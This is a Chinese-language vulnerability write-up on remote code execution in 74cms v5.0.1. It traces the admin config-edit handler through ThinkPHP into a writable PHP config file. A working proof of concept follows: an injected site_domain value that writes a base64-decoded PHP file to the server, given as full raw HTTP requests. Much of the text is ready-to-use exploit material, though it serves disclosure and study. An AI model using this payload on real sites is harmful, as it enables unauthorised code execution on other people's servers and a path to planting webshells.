


74cms v5.0.1远程执行代码
========================

一、漏洞简介
------------

二、漏洞影响
------------

74cms v5.0.1

三、复现过程
------------

### 漏洞分析

    POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 391
    Connection: close
    Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default

    site_name=%E9%AA%91%E5%A3%AB%E4%BA%BA%E6%89%8D%E7%B3%BB%E7%BB%9F&site_domain=127.0.0.1&site_dir=%2F74cms%2F&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00%E7%9C%8100%E5%B8%8200%E8%B7%AF00%E5%8F%B70%E5%A4%A7%E5%8E%A600%E6%A5%BC&bottom_other=Copyright+%C2%A9+2019+74cms.com+All+Right+Reserved+&icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=

c=config&a=edit -\> Controller=config&action=edit -\>
/Application/Admin/Controller/ConfigController.class.php Line 9:
I(\'request.site\_domain\',\'\',\'trim\') -\> trim(\$site\_domain,\'/\')
-\> \'.\'.implode(\'.\',\$domain) -\> array(\'domain\'=\>\$domain) -\>
\$this-\>update\_config(\$config,CONF\_PATH.\'url.php\')

    public function edit(){
           if(IS_POST){
               $site_domain = I('request.site_domain','','trim');
               $site_domain = trim($site_domain,'/');
               $site_dir = I('request.site_dir',C('qscms_site_dir'),'trim');
               $site_dir = $site_dir==''?'/':$site_dir;
               $site_dir = $site_dir=='/'?$site_dir:('/'.trim($site_dir,'/').'/');
               $_POST['site_dir'] = $site_dir;
               if($site_domain && $site_domain != C('qscms_site_domain')){
                   if($site_domain == C('qscms_wap_domain')){
                       $this->returnMsg(0,'主域名不能与触屏版域名重复！');
                   }
                   $str = str_replace('http://','',$site_domain);
                   $str = str_replace('https://','',$str);
                   if(preg_match('/com.cn|net.cn|gov.cn|org.cn$/',$str) === 1){
                       $domain = array_slice(explode('.', $str), -3, 3);
                   }else{
                       $domain = array_slice(explode('.', $str), -2, 2);
                   }
                   $domain = '.'.implode('.',$domain);
                   $config['SESSION_OPTIONS'] = array('domain'=>$domain);
                   $config['COOKIE_DOMAIN'] = $domain;
                   $this->update_config($config,CONF_PATH.'url.php');
               }

/ThinkPHP/Common/functions.php第271行中的I（\'request.site\_domain\'，\'\'，\'trim\'）是字符串。request.site\_domain-\>
\$ \_REQUEST \[\'site\_domain\'\]-\> \$ \_ REQUEST
\[\'site\_domain\'\]是字符串-\>修剪（\$ \_REQUEST \[\'site\_domain\'\]）

    function I($name,$default='',$filter=null,$datas=null) {
        ...
        if(strpos($name,'.')) { // 指定参数来源
            list($method,$name) =   explode('.',$name,2);
        }else{ // 默认为自动判断
            $method =   'param';
        }
        switch(strtolower($method)) {
            case 'get'     :   
                $input =& $_GET;
                break;
            case 'post'    :   
                $input =& $_POST;
                break;
            ...
            case 'request' :   
                $input =& $_REQUEST;   
                break;
            ...
        }
        if(''==$name) { // 获取全部变量
          ...
            }
        }elseif(isset($input[$name])) { // 取值操作
            $data       =   $input[$name];
            $filters = isset($filter) ? $filter.','.C('DEFAULT_FILTER') : C('DEFAULT_FILTER');
            //$filters    =   isset($filter)?$filter:C('DEFAULT_FILTER');
            if($filters) {
                if(is_string($filters)){
                    if(0 === strpos($filters,'/')){
                        if(1 !== preg_match($filters,(string)$data)){
                            // 支持正则验证
                            return   isset($default) ? $default : null;
                        }
                    }else{
                        $filters    =   explode(',',$filters);                    
                    }
                }elseif(is_int($filters)){
                    $filters    =   array($filters);
                }
                
                if(is_array($filters)){
                    foreach($filters as $filter){
                        if(function_exists($filter)) {
                            $data   =   is_array($data) ? array_map_recursive($filter,$data) : $filter($data); // 参数过滤
                        }else{
                            $data   =   filter_var($data,is_int($filter) ? $filter : filter_id($filter));
                            if(false === $data) {
                                return   isset($default) ? $default : null;
                            }
                        }
                    }
                }
            }
            if(!empty($type)){
              ...
        }else{ // 变量默认值
            $data       =    isset($default)?$default:null;
        }
        is_array($data) && array_walk_recursive($data,'think_filter');
        return $data;
    }

返回到/Application/Admin/Controller/ConfigController.class.php第29行：array（\'SESSION\_OPTIONS\'=\>
array（\'domain\'=\> \$ domain），\'COOKIE\_DOMAIN\'=\> \$ domain） -\>
update\_config（\$ config， CONF\_PATH.\'url.php\'）

    $config['SESSION_OPTIONS'] = array('domain'=>$domain);
    $config['COOKIE_DOMAIN'] = $domain;
    $this->update_config($config,CONF_PATH.'url.php');

/Application/Common/Controller/BackendController.class.php第467
行中的update\_config（\$ config，CONF\_PATH.\'url.php\'）：

multimerge（\$ config，\$ new\_config） -\> file\_put\_contents（\$
config\_file，" \<？php \\ nreturn"。stripslashes（var\_export（\$
config，true））。";"，LOCK\_EX）

        public function update_config($new_config, $config_file = '') {
            !is_file($config_file) && $config_file = HOME_CONFIG_PATH . 'config.php';
            if (is_writable($config_file)) {
                $config = require $config_file;
                $config = multimerge($config, $new_config);
                if($config['SESSION_OPTIONS']){
                    $config['SESSION_OPTIONS']['path'] = SESSION_PATH;
                }
                file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";", LOCK_EX);
                @unlink(RUNTIME_FILE);
                return true;
            } else {
                return false;
            }
        }
    }

multimerge(\$config, \$new\_config) in
/Application/Common/Common/function.php Line 938: no restricted

    function multimerge($a, $b) {
        if (is_array($b) && count($b)) {
            foreach ($b as $k => $v) {
                if (is_array($v) && count($v)) {
                    $a[$k] = in_array($k, array('SESSION_OPTIONS')) ? multimerge($a[$k], $v) : $v;
                } else {
                    $a[$k] = $v;
                }
            }
        } else {
            $a = $b;
        }
        return $a;
    }

CONF\_PATH in /ThinkPHP/ThinkPHP.php Line 54: CONF\_PATH.\'url.php\' -\>
/Application/Common/Conf/url.php

    defined('COMMON_PATH')  or define('COMMON_PATH',    APP_PATH.'Common/'); // 应用公共目录
    defined('CONF_PATH')    or define('CONF_PATH',      COMMON_PATH.'Conf/');
    define('APP_PATH','./Application/');

var\_export(): Quote string with slashes&Convert special characters to
HTML entities -\> stripslashes(): un-quotes a quoted string -\> Convert
special characters to HTML entities -\> write file

    file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";",LOCK_

/Application/Home/Conf/url.php: The code after \"return array(\...);\"
does not work, so payload is site\_domain=\', {your php code},\'

    <?php 
    return array (
      'URL_MODEL' => 0,
      'URL_HTML_SUFFIX' => '.html',
      'URL_PATHINFO_DEPR' => '/',
      'URL_ROUTER_ON' => true,
      'URL_ROUTE_RULES' => 
      array (
        '/^jobfair\/(?!admin)(\w+)$/' => 'jobfair/index/:1',
        '/^mall\/(?!admin)(\w+)$/' => 'mall/index/:1',
      ),
      'QSCMS_VERSION' => '5.0.1',
      'QSCMS_RELEASE' => '2019-03-19 00:00:00',
      'SESSION_OPTIONS' => 
      array (
        'domain' => '.0.1',
        0 => 18,
        1 => '',
        'path' => 'D:\***\***\***\WWW\74cms\data\session',
      ),
      'COOKIE_DOMAIN' => '.0.1',
      0 => 18,
      1 => '',
    );

### 复现poc

-\> PD9waHAgcGhwaW5mbygpOz8+

site\_domain=\',
file\_put\_contents(\'403.php\',base64\_decode(\'PD9waHAgcGhwaW5mbygpOz8+\')),\'

    POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 465
    Connection: close
    Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default

    site_name=%E9%AA%91%E5%A3%AB%E4%BA%BA%E6%89%8D%E7%B3%BB%E7%BB%9F&site_domain='%2C+file_put_contents('403.php'%2Cbase64_decode('PD9waHAgcGhwaW5mbygpOz8%2B'))%2C'&site_dir=%2F74cms%2F&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00%E7%9C%8100%E5%B8%8200%E8%B7%AF00%E5%8F%B70%E5%A4%A7%E5%8E%A600%E6%A5%BC&bottom_other=Copyright+%C2%A9+2019+74cms.com+All+Right+Reserved+&icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=
    GET /74cms/Application/Common/Conf/url.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0

成功截图

四、参考链接
------------

> https://github.com/kyrie403/Vuln/blob/master/74cms/74cms%20v5.0.1%20remote%20code%20execution.md
